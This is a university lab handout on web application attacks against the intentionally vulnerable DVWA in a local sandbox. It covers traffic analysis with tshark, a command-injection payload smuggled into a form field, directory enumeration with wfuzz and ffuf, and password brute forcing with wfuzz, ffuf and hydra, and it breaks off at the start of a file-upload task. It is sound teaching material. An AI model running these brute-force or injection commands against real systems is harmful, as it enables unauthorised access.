


# PB177 – Web Application Attacks – Part II

[[_TOC_]]

## Learning Objectives

At the end of this lab session, you will be able to:
- analyze HTTP GET and POST requests to identify web application vulnerabilities,
- perform forced browsing to enumerate unlinked or hidden resources,
- execute brute force attacks on login pages using HTTP POST requests,
- explore the risks of unrestricted file uploads and their consequences,
- perform and analyze different types of XSS attacks and their exploitation methods,
- perform and analyze a CSRF attack and understand its impact on user trust,
- use ZAP proxy as a MITM to intercept, analyze, and manipulate HTTP traffic.

## Sandbox

In this lab, you will use the [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA), an intentionally insecure web environment designed for learning and practicing web application security. DVWA provides a controlled environment where you can explore and test various web vulnerabilities. This hands-on training will help you build skills in exploiting and defending against common security issues using practical tools and techniques.

## Start the Sandbox

1. Update the repository by running `git pull` in `labs` directory. Go to `6` directory.
1. Login to get access to Podman images: `podman login gitlab.fi.muni.cz:5050`.
1. Run `podman-compose pull` to download images used in this lab.
1. Run `podman-compose up -d`.
1. [Check you can access Kali container using terminal and RDP](../1/index.md#start-the-sandbox). This lab uses three containers, `podman-compose ps -q | wc -l` should display `3`.
1. Setup the DVWA DB: go to http://10.0.0.10/setup.php and click the "Create / Reset Database" button. You should see "Setup successful!".

## Web Attacks

### Task: tshark HTTP Traffic Analysis

Analyze HTTP [GET](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) and [POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) requests to DVWA application.

<details open>
<summary>
HTTP GET request to performe Brute Force attack in DVWA
</summary>

 * Navigate to the  `Brute Force` page and enter user: `USERNAME` and password: `PASSWORD`

 ```shell-session
root@attacker:~# curl -v -s 'http://10.0.0.10:80/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login' > /dev/null
 ```

 * Analyze the GET resquest in `tshark`.

 ```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "host 10.0.0.10 and port 80" -Y "http" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 4: 208 bytes on wire (1664 bits), 208 bytes captured (1664 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 59200, Dst Port: 80, Seq: 1, Ack: 1, Len: 142
Hypertext Transfer Protocol
    GET /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login HTTP/1.1
        Request Method: GET
        Request URI: /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login
            Request URI Path: /vulnerabilities/brute/
            Request URI Query: username=USERNAME&password=PASSWORD&Login=Login
                Request URI Query Parameter: username=USERNAME
                Request URI Query Parameter: password=PASSWORD
                Request URI Query Parameter: Login=Login
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: curl/8.9.1
    Accept: */*

    [Full request URI: http://10.0.0.10/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]

Frame 6: 4804 bytes on wire (38432 bits), 4804 bytes captured (38432 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:0a, Dst: 02:42:0a:00:00:fe
Internet Protocol Version 4, Src: 10.0.0.10, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 80, Dst Port: 59200, Seq: 1, Ack: 143, Len: 4738
Hypertext Transfer Protocol
    HTTP/1.1 200 OK
        Response Version: HTTP/1.1
        Status Code: 200
        [Status Code Description: OK]
        Response Phrase: OK
    Date: Tue, 26 Nov 2024 22:49:01 GMT
    Server: Apache/2.4.62 (Debian)
    X-Powered-By: PHP/8.3.13
    Set-Cookie: security=low; path=/
    Set-Cookie: PHPSESSID=44a3d3c5b49a5ef59d462a3b67b608f4; expires=Wed, 27 Nov 2024 22:49:01 GMT; Max-Age=86400; path=/
    Expires: Tue, 23 Jun 2009 12:00:00 GMT
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 4288
        [Content length: 4288]
    Content-Type: text/html;charset=utf-8

    [Request in frame: 4]
    [Time since request: 0.005832375 seconds]
    [Request URI: /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]
    [Full request URI: http://10.0.0.10/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]
    File Data: 4288 bytes
Line-based text data: text/html (110 lines)
 ```
</details>

<details open>
<summary>
HTTP POST request to performe Command Injection attack in DVWA
</summary>

 * Navigate to the  `Command Injection` page and enter `10.0.0.254; cat /etc/os-release`

 ```shell-session
root@attacker:~# curl -s -v -X POST -d 'ip=10.0.0.254; cat /etc/os-release&Submit=Submit' http://10.0.0.10:80/vulnerabilities/exec/ | lynx -nolist -dump -stdin
 ```

 * Analyze the POST resquest in `tshark`.

 ```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "host 10.0.0.10 and port 80" -Y "http.request.method == POST || http.response" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 4: 277 bytes on wire (2216 bits), 277 bytes captured (2216 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 49398, Dst Port: 80, Seq: 1, Ack: 1, Len: 211
Hypertext Transfer Protocol
    POST /vulnerabilities/exec/ HTTP/1.1
        Request Method: POST
        Request URI: /vulnerabilities/exec/
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: curl/8.9.1
    Accept: */*
    Content-Length: 48
        [Content length: 48]
    Content-Type: application/x-www-form-urlencoded

    [Full request URI: http://10.0.0.10/vulnerabilities/exec/]
    File Data: 48 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "ip" = "10.0.0.254; cat /etc/os-release"
        Key: ip
        Value: 10.0.0.254; cat /etc/os-release
    Form item: "Submit" = "Submit"
        Key: Submit
        Value: Submit

Frame 6: 5400 bytes on wire (43200 bits), 5400 bytes captured (43200 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:0a, Dst: 02:42:0a:00:00:fe
Internet Protocol Version 4, Src: 10.0.0.10, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 80, Dst Port: 49398, Seq: 1, Ack: 212, Len: 5334
Hypertext Transfer Protocol
    HTTP/1.1 200 OK
        Response Version: HTTP/1.1
        Status Code: 200
        [Status Code Description: OK]
        Response Phrase: OK
    Date: Wed, 27 Nov 2024 05:46:46 GMT
    Server: Apache/2.4.62 (Debian)
    X-Powered-By: PHP/8.3.13
    Set-Cookie: security=low; path=/
    Set-Cookie: PHPSESSID=bedf0e58ef70597881abe564c2c4833c; expires=Thu, 28 Nov 2024 05:46:46 GMT; Max-Age=86400; path=/
    Expires: Tue, 23 Jun 2009 12:00:00 GMT
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 4884
        [Content length: 4884]
    Content-Type: text/html;charset=utf-8

    [Request in frame: 4]
    [Time since request: 3.074000251 seconds]
    [Request URI: /vulnerabilities/exec/]
    [Full request URI: http://10.0.0.10/vulnerabilities/exec/]
    File Data: 4884 bytes
Line-based text data: text/html (128 lines)
```

</details>

### Task: Forced Browsing Attack

[Forced browsing](https://owasp.org/www-community/attacks/Forced_browsing) is an attack where the aim is to enumerate and access resources that are not referenced by the application, but are still accessible. This attack is performed manually when the application index directories and pages are based on predictable values, or using automated tools for common files and directory names.

<details open>
<summary>
Forced browsing attack using wfuzz
</summary>

 * Use `wfuzz` with the wordlist `/usr/share/wordlists/wfuzz/general/test.txt`, enable colored output (`-c`), set verbosity (`-v`), and use a single connection to access the web server (`-t 1`).

```shell-session
root@attacker:~# wfuzz -c -v -t 1 -w /usr/share/wordlists/wfuzz/general/test.txt -u http://10.0.0.10/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10/FUZZ
Total requests: 10

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000001:   0.002s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "classes"
000000003:   0.000s       301        9 L        28 W     305 Ch      Apache/2.4.62 (Debian)           http://10.0.0.10/docs/           "docs"
000000005:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "images"
000000002:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "css"
000000004:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "environment"
000000006:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "includes"
000000008:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "prueba"
000000010:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "test"
000000007:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "master"
000000009:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "scripts"
 ```

* Check the meanings of the HTTP response status codes [301](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/301) and [404](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/404). A description of all status codes is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status).
* Add the new `--hc` parameter to wfuzz to filter out 404 responses.
* Change the wordlist to `/usr/share/wordlists/dirb/big.txt` and check the meaning of any newly discovered response codes (e.g., 200, 301, 403).

</details>


<details open>
<summary>
Find the login page for the DVWA application.
</summary>

 * Change the `FUZZ` parameter to `FUZZ.php` and search for the DVWA login page written in PHP.

 ```shell-session
root@attacker:~# wfuzz -c -v -t 1 --hc 404 -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10/FUZZ.php
Total requests: 20469

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000015:   0.001s       403        9 L        28 W     274 Ch      Apache/2.4.62 (Debian)                                            ".htaccess"
000000016:   0.001s       403        9 L        28 W     274 Ch      Apache/2.4.62 (Debian)                                            ".htpasswd"
000001586:   0.004s       200        122 L      427 W    5273 Ch     Apache/2.4.62 (Debian)                                            "about"
000009563:   0.002s       200        114 L      648 W    6007 Ch     Apache/2.4.62 (Debian)                                            "index"
000009752:   0.010s       200        548 L      4677 W   38669 Ch    Apache/2.4.62 (Debian)                                            "instructions"
000011054:   0.005s       200        74 L       116 W    1342 Ch     Apache/2.4.62 (Debian)                                            "login"
000011077:   0.001s       302        0 L        0 W      0 Ch        Apache/2.4.62 (Debian)           login.php                        "logout"
000013817:   0.002s       200        888 L      4852 W   79324 Ch    Apache/2.4.62 (Debian)                                            "phpinfo"
000016105:   0.002s       200        108 L      416 W    4561 Ch     Apache/2.4.62 (Debian)                                            "security"
000016262:   0.003s       200        140 L      463 W    5221 Ch     Apache/2.4.62 (Debian)                                            "setup"
 ```
* What is the name of the login page? Which page redirects to the login page? Click on this page in the DVWA menu in the Firefox browser to display the login form.
* Change the wordlist to `/usr/share/wordlists/wfuzz/general/admin-panels.txt`, which is more appropriate for guessing the login page, and use the `FUZZ` parameter. Then, run `wfuzz` again with these new settings to test it.
</details>


<details open>
<summary>
Bonus Task: Discover the DVWA login page using ffuf.
</summary>

 * `ffuf` uses similar parameters to `wfuzz` and, by default, displays responses for status codes 200–299, 301, 302, 307, 401, 403, 405, and 500.

 ```shell-session
root@attacker:~# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 288ms]
config                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
database                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
docs                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 3ms]
external                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
favicon.ico             [Status: 200, Size: 1406, Words: 5, Lines: 2, Duration: 2ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 2, Duration: 2ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
tests                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 7ms]
 ```

 * Extend the `FUZZ` keyword using the `-e` option to include `.php` files in the search.

 ```shell-session
 root@attacker:~# ffuf -c -e .php -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
about.php               [Status: 200, Size: 5273, Words: 337, Lines: 123, Duration: 8ms]
config                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 1ms]
database                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
docs                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 0ms]
external                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 3ms]
favicon.ico             [Status: 200, Size: 1406, Words: 5, Lines: 2, Duration: 0ms]
index.php               [Status: 200, Size: 6007, Words: 564, Lines: 115, Duration: 8ms]
instructions.php        [Status: 200, Size: 38715, Words: 4309, Lines: 549, Duration: 46ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4ms]
login.php               [Status: 200, Size: 1342, Words: 77, Lines: 75, Duration: 20ms]
phpinfo.php             [Status: 200, Size: 79117, Words: 3988, Lines: 886, Duration: 32ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 2, Duration: 2ms]
security.php            [Status: 200, Size: 4561, Words: 339, Lines: 109, Duration: 15ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
setup.php               [Status: 200, Size: 5221, Words: 357, Lines: 141, Duration: 4ms]
tests                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
```

* Add the new `-mc` parameter to ffuf to display 200 responses. HTTP 200 OK indicates a successful request, meaning the server has successfully processed and returned the requested page.
* Use additional options (e.g., `-v`), wordlists, and modifications to the FUZZ keyword to practice with ffuf.
</details>

### Task: Brute Force Using wfuzz and ffuf

In this task, you will perform a brute force attack on the DVWA login page using the HTTP POST method to send data to the web server.

<details open>
<summary>
Brute force attack using wfuzz
</summary>
 
 * Start `tshark` to capture network traffic sent by the attacker to the DVWA web server. The login page uses the HTTP POST method to transmit data to the server. Apply a tshark capture filter to monitor outgoing traffic and a display filter to show HTTP POST requests. Open the login page in Firefox and log in with the username `USERNAME` and password `PASSWORD`.

```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "dst host 10.0.0.10" -Y "http.request.method == POST" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 19: 706 bytes on wire (5648 bits), 706 bytes captured (5648 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 53104, Dst Port: 80, Seq: 1, Ack: 1, Len: 640
Hypertext Transfer Protocol
    POST /login.php HTTP/1.1
        Request Method: POST
        Request URI: /login.php
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 91
        [Content length: 91]
    Origin: http://10.0.0.10
    DNT: 1
    Connection: keep-alive
    Referer: http://10.0.0.10/login.php
    Cookie: security=low; PHPSESSID=fac4fa2c1fe4180e53f8e853fd72680e
        Cookie pair: security=low
        Cookie pair: PHPSESSID=fac4fa2c1fe4180e53f8e853fd72680e
    Upgrade-Insecure-Requests: 1

    [Full request URI: http://10.0.0.10/login.php]
    File Data: 91 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "username" = "USERNAME"
        Key: username
        Value: USERNAME
    Form item: "password" = "PASSWORD"
        Key: password
        Value: PASSWORD
    Form item: "Login" = "Login"
        Key: Login
        Value: Login
    Form item: "user_token" = "965cfab701508a1e43ed74f7dcf841e5"
        Key: user_token
        Value: 965cfab701508a1e43ed74f7dcf841e5
```

* Craft a valid `curl` command using the POST method and valid credentials, based on the data observed in `tshark`.

```shell-session
root@attacker:~# curl -s -v -X POST -d 'username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' http://10.0.0.10:80/login.php
```

* What is the value of the [**HTTP Location**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Location) response header for: a) a successful login with valid credentials, and b) a failed login? What parameters must be correctly set to log in to DVWA?

* Select a string from the web page shown after a successful login that we will use with the `--ss` option to verify that we have successfully logged in.

* Create a `wordlist.txt` file containing both valid and invalid passwords.
```shell-session
wrong-password
password
```

* Craft a valid `wfuzz` command to brute force the admin's password.
```shell-session
root@attacker:~# wfuzz -c -v -t 1 -w wordlist.txt --ss 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/login.php
Total requests: 2

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

```

* `wfuzz` failed to find a password. You need to analyze the traffic generated by `wfuzz` using `tshark` to identify what might be wrong with the command. Does wfuzz read the content of the index.php page after login? No, wfuzz does not follow links or read the content of the `index.php` page, which displays the message: **Welcome to Damn Vulnerable Web Application!**

* Let's try following HTTP redirections with `wfuzz` using the `-L` option, and then analyze the `wfuzz` traffic with `tshark` again.

```shell-session
root@attacker:~# wfuzz -L -c -v -t 1 -w wordlist.txt --ss 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/login.php
Total requests: 2

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000002:   0.008s       200        114 L      648 W    6007 Ch     Apache/2.4.62 (Debian)           (*) http://10.0.0.10:80/index.   "password"
                                                                                                      php
```
</details>

<details open>
<summary>
Brute force attack using ffuf
</summary>

* We are already familiar with the key options of `wfuzz` and the behavior of the login page. Now, let's craft a valid `ffuf` command to brute-force the admin's password.

```shell-session
root@attacker:~# ffuf -r -c -v -t 1 -w wordlist.txt --mr 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.0.0.10:80/login.php
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Data             : username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Matcher          : Regexp: Welcome
________________________________________________

:: Progress: [2/2] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

* `ffuf` failed to find a password, so we need to compare the network traffic generated by `wfuzz` and `ffuf` to identify the issue. For a quick overview, we will use the `ngrep` tool. The following [HTTP POST requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST#examples) were captured:

```shell-session
root@attacker:~# ngrep -q -l -W byline "POST" dst port 80 | sed 's/\.$//'
interface: eth0 (10.0.0.0/255.255.0.0)
filter: ( dst port 80 ) and ((ip || ip6) || (vlan && (ip || ip6)))
match (JIT): POST

T 10.0.0.254:54624 -> 10.0.0.10:80 [AP] #7
POST /login.php HTTP/1.1
Host: 10.0.0.10:80
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Wfuzz/3.1.0
Content-Length: 88

username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5

T 10.0.0.254:43670 -> 10.0.0.10:80 [AP] #16
POST /login.php HTTP/1.1
Host: 10.0.0.10:80
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 88
Accept-Encoding: gzip

username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
```

* Is something missing in the `ffuf` headers? Yes, `ffuf` does not include `Content-Type: application/x-www-form-urlencoded` in the HTTP headers, as explained [here](https://github.com/ffuf/ffuf/issues/754). Add the Content-Type header and try again.

```shell-session
root@attacker:~# ffuf -r -c -v -t 1 -w wordlist.txt --mr 'Welcome' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.0.0.10:80/login.php
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Matcher          : Regexp: Welcome
________________________________________________

[Status: 200, Size: 6007, Words: 564, Lines: 115, Duration: 1ms]
| URL | http://10.0.0.10:80/login.php
    * FUZZ: password
```
</details>

<details open>
<summary>
Bonus Task: Brute force attack using hydra.
</summary>

* We will use the `http-post-form` module to fill out the web form. Review its description using `hydra -U http-post-form`, and craft a valid command based on the information we already have.

 ```shell-session
root@attacker:~# hydra -t 1 -f -l admin -P wordlist.txt 'http-post-form://10.0.0.10:80/login.php:username=admin&password=^PASS^&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5:S=Welcome'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-28 06:39:04
[DATA] max 1 task per 1 server, overall 1 task, 3 login tries (l:1/p:3), ~3 tries per task
[DATA] attacking http-post-form://10.0.0.10:80/login.php:username=admin&password=^PASS^&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5:S=Welcome
[80][http-post-form] host: 10.0.0.10   login: admin   password: password
 ```

* Use `tshark` and `ngrep` to analyze the traffic generated by `hydra` during the brute-forcing of the admin's password.
</details>

### Task: Unrestricted File Upload Attack

Unrestricted file upload [[PortSwigger](https://portswigger.net/web-security/file-upload), [OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)] attack poses a significant risk to web applications, allowing an attacker to deliver malicious code to a target system as the first step. The potential consequences include complete system takeover, file system overload, backend system attacks, or website defacement.

<details open>
<summary>
Unrestricted file upload
</summary>
 
 * Use `curl` or `Firefox` to access the File Upload page in DVWA and examine the upload form parameters. This will allow you to identify the fields required for uploading a file.

```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/vulnerabilities/upload/ | grep -A 7 'method='
		<form enctype="multipart/form-data" action="#" method="POST">
			<input type="hidden" name="MAX_FILE_SIZE" value="100000" />
			Choose an image to upload:<br /><br />
			<input name="uploaded" type="file" /><br />
			<br />
			<input type="submit" name="Upload" value="Upload" />

		</form>
```
* Create a `curl` command to upload the `wordlist.txt` file to the web server. For submitting form data, especially when uploading files, the HTTP POST method uses the [multipart/form-data](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST#multipart_form_submission) content type. Use the `-F` parameter in `curl` to specify the form data.

```shell-session
